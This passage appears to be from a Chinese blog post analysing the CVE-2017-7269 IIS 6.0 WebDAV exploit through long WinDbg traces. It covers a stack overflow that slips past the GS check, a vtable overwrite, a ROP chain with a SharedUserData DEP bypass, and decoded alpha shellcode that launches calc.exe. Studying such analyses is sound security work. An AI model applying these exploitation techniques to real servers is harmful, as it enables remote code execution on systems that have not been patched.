这个a7长度很小，不会覆盖到gs，因此可以通过security check，但是这个a7却是一个溢出，它超过了stack buffer的长度，会覆盖到stack中关于stack buffer指针的存放位置。这个位置保存在ebp-328的位置。
0:009> p
eax=00fff800 ebx=0060b508 ecx=0060b508 edx=00000104 esi=00000001 edi=77bd8ef2
eip=67125479 esp=00fff7b8 ebp=00fffc34 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!HrCheckIfHeader+0x153:
67125479 ffb5e4fdffff push dword ptr [ebp-21Ch] ss:0023:00fffa18=0060c828
0:009> p
eax=00fff800 ebx=0060b508 ecx=0060b508 edx=00000104 esi=00000001 edi=77bd8ef2
eip=6712547f esp=00fff7b4 ebp=00fffc34 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!HrCheckIfHeader+0x159:
6712547f e8cd3fffff call httpext!CMethUtil::ScStoragePathFromUrl (67119451)
0:009> dd ebp-328／／注意拷贝的地址，这个90c是scstoragepathfromurl要拷贝的栈地址
00fff90c 00fff804 6711205b 00000013 00fff9c0
00fff91c 671287e7 00000000 000000f0 00000013
可以看到，第一次ScStoragePathFromUrl的时候，拷贝的地址是一个栈地址，通过stackbuffer申请到的，但是由于memcpy引发的栈溢出，导致这个地方值会被覆盖。
0:009> g//执行结束ScStoragePathFromUrl函数执行返回后
Breakpoint 0 hit
eax=00fff800 ebx=0060b508 ecx=00605740 edx=0060c828 esi=00000001 edi=77bd8ef2
eip=67126c7b esp=00fff79c ebp=00fff7ac iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl:
67126c7b b8150d1467 mov eax,offset httpext!swscanf+0x14b5 (67140d15)
0:009> g
Breakpoint 3 hit
eax=00000000 ebx=0060b508 ecx=00002f06 edx=00fff804 esi=00000001 edi=77bd8ef2
eip=67125484 esp=00fff7c0 ebp=00fffc34 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!HrCheckIfHeader+0x15e:
67125484 8bf0 mov esi,eax
0:009> dc fff804／／第一次memcpy之后，覆盖到了90c的位置
00fff804 003a0063 0069005c 0065006e 00700074 c.:.\.i.n.e.t.p.
00fff814 00620075 0077005c 00770077 006f0072 u.b.\.w.w.w.r.o.
00fff824 0074006f 0061005c 00610061 00610061 o.t.\.a.a.a.a.a.
00fff834 00610061 78636f68 71337761 47726936 a.a.hocxaw3q6irG
00fff844 4b777a39 75534f70 48687a4f 6d545663 9zwKpOSuOzhHcVTm
00fff854 39536845 5567506c 33646763 78454630 EhS9lPgUcgd30FEx
00fff864 54316952 6a514c58 42317241 58507035 Ri1TXLQjAr1B5pPX
00fff874 6c473664 546a3539 54435034 50617752 d6Gl95jT4PCTRwaP
0:009> dd fff900
00fff900 5a306272 54485938 02020202 680312c0
经过这次stack buffer overflow，这个值已经被覆盖，覆盖成了一个堆地址0x680312c0。接下来进入第二次调用。
0:009> p
eax=00fff910 ebx=0060b508 ecx=00000410 edx=00000000 esi=0060d32a edi=77bd8ef2
eip=671253e2 esp=00fff7bc ebp=00fffc34 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!HrCheckIfHeader+0xbc:
671253e2 ffd7 call edi {msvcrt!wcslen (77bd8ef2)}
0:009> dc 60d32a
0060d32a 00740068 00700074 002f003a 006c002f h.t.t.p.:././.l.
0060d33a 0063006f 006c0061 006f0068 00740073 o.c.a.l.h.o.s.t.
0060d34a 0062002f 00620062 00620062 00620062 /.b.b.b.b.b.b.b.
0:009> p
eax=0000030d
第二次获得http://localhost/bbbbb...的长度，这个长度有0x30d，非常长，但是对应保存的位置变了。
0:009> p
eax=00fff800 ebx=0060b508 ecx=00fff800 edx=000002fe esi=00000000 edi=77bd8ef2
eip=67125436 esp=00fff7c0 ebp=00fffc34 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!HrCheckIfHeader+0x110:
67125436 50 push eax
0:009> p
eax=00fff800 ebx=0060b508 ecx=00fff800 edx=000002fe esi=00000000 edi=77bd8ef2
eip=67125437 esp=00fff7bc ebp=00fffc34 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!HrCheckIfHeader+0x111:
67125437 ffb5d8fcffff push dword ptr [ebp-328h] ss:0023:00fff90c=680312c0
0:009> dc ebp-328
00fff90c 680312c0 52566c44 6c6d4b37 585a4f58 ...hDlVR7KmlXOZX
00fff91c 496a7950 4a52584f 664d4150 680313c0 PyjIOXRJPAMf...h
00fff92c 65314834 6e666f43 436c7441 680313c0 4H1eCofnAtlC...h
00fff93c 6a415343 33307052 424c5866 6346704b CSAjRp03fXLBKpFc
0:009> dd 680312c0／／要用到的堆地址，这个地址会在最后用到
680312c0 00000000 00000000 00000000 00000000
680312d0 00000000 00000000 00000000 00000000
680312e0 00000000 00000000 00000000 00000000
可以看到，第二次利用的时候，会把ebp-328这个地方的值推入栈中，这个地方应该是stack buffer的地址，应该是个栈地址，但是现在变成了堆地址，就是由于第一次栈溢出，覆盖了这个变量。
而这个值，会作为参数传入ScStorageFromUrl函数，作为memcpy拷贝的值。
这也就解释了为什么我们在上面分析漏洞的时候，会是向堆地址拷贝，而这一次拷贝，就不需要控制长度了，因为这个地方的值已经是堆地址，再怎么覆盖，也不会覆盖到cookie。这里未来要覆盖IEcb虚表结构。从而达到漏洞利用。这样，第二次向堆地址拷贝之后，这个堆地址会覆盖到IEcb的虚表，这个虚表结构会在最后利用时引用到。
在PoC中，有一处
0:009> p
eax=67140d15 ebx=00fffbe8 ecx=680313c0 edx=0060e7b0 esi=00fffc28 edi=00000104
eip=67126c80 esp=00fff940 ebp=00fff950 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
httpext!ScStoragePathFromUrl+0x5:
67126c80 e803100000 call httpext!_EH_prolog (67127c88)
0:009> kb
ChildEBP RetAddr Args to Child
00fff93c 67119469 00fffab4 00fff9a4 00000000 httpext!ScStoragePathFromUrl+0x5
00fff950 67125740 0060e7b0 00fffab4 00fff9a4 httpext!CMethUtil::ScStoragePathFromUrl+0x18
00fffbd0 664d4150 680313c0 65314834 6e666f43 httpext!CParseLockTokenHeader::HrGetLockIdForPath
+0x119
WARNING: Frame IP not in any known module. Following frames may be wrong.
00fffc3c 6711f68e 0060b508 0060584e 80000000 0x664d4150
00fffc78 6711f7c5 0060c010 00fffcd4 671404e2 httpext!CPropFindRequest::Execute+0x125
这时候对应的IEcb已经被覆盖，这样，在进入ScStoragePathFromUrl函数之后，会进入我们在漏洞分析部分提到的CheckPrefixUrl函数，这个函数中有大量的IEcb虚表虚函数引用。
0:009> p
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=671335f3 esp=00fff4b4 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStripAndCheckHttpPrefix+0x1e:
671335f3 ff5024 call dword ptr [eax+24h] ds:0023:680313e4=68016082
0:009> dc eax
680313c0 680313c0 68006e4f 68006e4f 766a4247 ...hOn.hOn.hGBjv
680313d0 680313c0 4f744257 52345947 4b424b66 ...hWBtOGY4RfKBK
和大家分享了这个精妙利用，一般可能都会觉得是第二次url bbbbb的这个memcpy覆盖了关键函数导致的溢出、利用，实际上，在第一次url aaaaaa中，就已经引发了栈溢出，覆盖到了stackbuffer申请的指向栈buffer的指针，这个指针存放在栈里，用于后续调用存放虚拟路径，由于第一次栈溢出，覆盖到了这个变量导致第二次url bbbbb拷贝的时候，是向一个堆地址拷贝，这个堆地址后面的偏移中，存放着IEcb的vftable，通过覆盖虚表虚函数，在最后locktoken触发的ScStoragePathFromUrl中利用虚函数达到代码执行。
而这个过程，也是巧妙的绕过了GS的检查。
这个漏洞使用了一些非常有意思的手法，一个是TK教主在13年安全会议上提到的shareduserdata，在ROP中，另一个是alpha shellcode。
首先，在前面虚函数执行之后，会先进行stack pivot，随后进入rop。
0:009> t//stack pivot!!!
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016082 esp=00fff4b0 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!_alloca_probe+0x42:
68016082 8be1 mov esp,ecx
0:009> p
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016084 esp=680313c0 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!_alloca_probe+0x44:
68016084 8b08 mov ecx,dword ptr [eax] ds:0023:680313c0=680313c0
0:009> p
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016086 esp=680313c0 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!_alloca_probe+0x46:
68016086 8b4004 mov eax,dword ptr [eax+4] ds:0023:680313c4=68006e4f
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016089 esp=680313c0 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!_alloca_probe+0x49:
68016089 50 push eax
0:009> p//ROP Chain
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=6801608a esp=680313bc ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!_alloca_probe+0x4a:
6801608a c3 ret
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68006e4f esp=680313c0 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!CPEncrypt+0x3b:
68006e4f 5e pop esi
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=680313c0 edi=680313c0
eip=68006e50 esp=680313c4 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!CPEncrypt+0x3c:
68006e50 5d pop ebp
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=680313c0 edi=680313c0
eip=68006e51 esp=680313c8 ebp=68006e4f iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!CPEncrypt+0x3d:
68006e51 c22000 ret 20h
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=680313c0 edi=680313c0
eip=68006e4f esp=680313ec ebp=68006e4f iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!CPEncrypt+0x3b:
68006e4f 5e pop esi
经过一系列ROP之后，会进入KiFastSystemCall，这是利用SharedUserData bypass DEP的一环。
0:009> p
eax=0000008f ebx=7ffe0300 ecx=680313c0 edx=00fff4f8 esi=68031460 edi=680124e3
eip=680124e3 esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!HmacCheck+0x2c3:
680124e3 ff23 jmp dword ptr [ebx] ds:0023:7ffe0300={ntdll!KiFastSystemCall (7c8285e8)}
0:009> p
eax=0000008f ebx=7ffe0300 ecx=680313c0 edx=00fff4f8 esi=68031460 edi=680124e3
eip=7c8285e8 esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
ntdll!KiFastSystemCall:
7c8285e8 8bd4 mov edx,esp
0:009> p
eax=0000008f ebx=7ffe0300 ecx=680313c0 edx=68031400 esi=68031460 edi=680124e3
eip=7c8285ea esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
ntdll!KiFastSystemCall+0x2:
7c8285ea 0f34 sysenter
0:009> p
eax=00000000 ebx=7ffe0300 ecx=00000001 edx=ffffffff esi=68031460 edi=680124e3
eip=68031460 esp=68031404 ebp=6e6f3176 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!g_pfnFree+0x1a4:
68031460 56 push esi
0:009> dc 68031460
68031460 00560056 00410059 00340034 00340034 V.V.Y.A.4.4.4.4.
68031470 00340034 00340034 00340034 00410051 4.4.4.4.4.4.Q.A.
之后进入alpha shellcode，这时候68031460作为shareduserdata，已经具备可执行权限。
Failed to map Heaps (error 80004005)
Usage: Image
Allocation Base: 68000000
Base Address: 68031000
End Address: 68032000
Region Size: 00001000
Type: 01000000 MEM_IMAGE
State: 00001000 MEM_COMMIT
Protect: 00000040 PAGE_EXECUTE_READWRITE 有了可执行权限
这里由于url存入内存按照宽字节存放，因此都是以00 xx方式存放，因此不能单纯使用shellcode，而得用alpha shellcode（结尾基友用了另一种方法执行shellcode，大家可以看下），alpha shellcode会先执行一段操作。随后进入解密部分。
0:009> p
eax=059003d9 ebx=7ffe0300 ecx=68031585 edx=68031568 esi=68031460 edi=680124e3
eip=6803154e esp=68031400 ebp=6e6f3176 iopl=0 nv up ei ng nz ac po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000292
rsaenh!g_pfnFree+0x292:
6803154e 41 inc ecx
0:009> p
eax=059003d9 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=6803154f esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
rsaenh!g_pfnFree+0x293:
6803154f 004200 add byte ptr [edx],al ds:0023:68031568=e3
0:009> p
eax=059003d9 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=68031552 esp=68031400 ebp=6e6f3176 iopl=0 nv up ei ng nz na po cy
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000283
rsaenh!g_pfnFree+0x296:
68031552 6b0110 imul eax,dword ptr [ecx],10h ds:0023:68031586=00540032
0:009> p
eax=05400320 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=68031555 esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
rsaenh!g_pfnFree+0x299:
68031555 024102 add al,byte ptr [ecx+2] ds:0023:68031588=54
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=68031558 esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
rsaenh!g_pfnFree+0x29c:
68031558 8802 mov byte ptr [edx],al ds:0023:68031568=bc
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031568 esi=68031460 edi=680124e3
eip=6803155a esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
rsaenh!g_pfnFree+0x29e:
6803155a 42 inc edx
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031569 esi=68031460 edi=680124e3
eip=6803155b esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
rsaenh!g_pfnFree+0x29f:
6803155b 803941 cmp byte ptr [ecx],41h ds:0023:68031586=32
0:009> p
eax=05400374 ebx=7ffe0300 ecx=68031586 edx=68031569 esi=68031460 edi=680124e3
eip=6803155e esp=68031400 ebp=6e6f3176 iopl=0 nv up ei ng nz na po cy
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000283
rsaenh!g_pfnFree+0x2a2:
6803155e 75e2 jne rsaenh!g_pfnFree+0x286 (68031542) [br=1]
0:009> dd 68031580
68031580 00380059 00320059 004d0054 004a0054
68031590 00310054 0030004d 00370031 00360059
680315a0 00300051 00300031 00300031 004c0045
680315b0 004b0053 00300053 004c0045 00330053
可以看到，解密前，alpha shellcod部分，随后解密结束之后。
0:009> p
eax=04d0035d ebx=7ffe0300 ecx=68031592 edx=6803156c esi=68031460 edi=680124e3
eip=6803155e esp=68031400 ebp=6e6f3176 iopl=0 nv up ei ng nz na pe cy
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000287
rsaenh!g_pfnFree+0x2a2:
6803155e 75e2 jne rsaenh!g_pfnFree+0x286 (68031542) [br=1]
0:009> bp 68031560
0:009> g
Breakpoint 2 hit
eax=00000410 ebx=7ffe0300 ecx=680318da edx=6803163e esi=68031460 edi=680124e3
eip=68031560 esp=68031400 ebp=6e6f3176 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
rsaenh!g_pfnFree+0x2a4:
68031560 b8b726bfca mov eax,0CABF26B7h
0:009> dd 68031580
68031580 223cec9b 265a2caa 6a289c9c 9f7c5610
68031590 90a91aa3 9f8f9004 beec8995 6120d015
680315a0 60351b24 30b44661 a56b0c3a 4eb0584f
680315b0 b3b04c03 65916fd3 87313668 9f7842bd
680315c0 14326fa2 fcc51b10 c16ae469 05721746
680315d0 7f01c860 44127593 5f97a1ee 840f2148
680315e0 4fd6e669 089c4365 23715269 e474df95
shellcode已经被解密出来，随后会调用winexec，执行calc。
0:009> p
eax=77ea411e ebx=7ffe0300 ecx=68031614 edx=876f8b31 esi=68031460 edi=680124e3
eip=680315f9 esp=680313fc ebp=68031581 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
rsaenh!g_pfnFree+0x33d:
680315f9 51 push ecx
0:009> p
eax=77ea411e ebx=7ffe0300 ecx=68031614 edx=876f8b31 esi=68031460 edi=680124e3
eip=680315fa esp=680313f8 ebp=68031581 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
rsaenh!g_pfnFree+0x33e:
680315fa ffe0 jmp eax {kernel32!WinExec (77ea411e)}
0:009> dd esp
680313f8 68031614 68031633 00000001 00000000
0:009> dc 68031633 l2
68031633 636c6163 6578652e calc.exe
第二个参数是0x1，是SW_SHOWNORMAL，但由于服务无窗口，因此calc无法弹出。

其实，这个过程可以替换成其他的shellcode，相关的shellcode替换链接可以看我的好基友LCatro的几篇文章，都非常不错。
https://ht-sec.org/cve-2017-7269-hui-xian-poc-jie-xi/
最后我想说，我在深圳，刚才和几个平时网上的好朋友吃夜宵，聊到这个漏洞，没想到在几个小时前认识的彭博士，就是这个漏洞的作者！真的没有想到，还好自己分析的这套思路和这个漏洞作者的思路相差无几，不然就被打脸了。真的很有缘！一下学到了好多。
这篇最后还是没有按时发出，不过希望能和大家一起学习！谢谢阅读！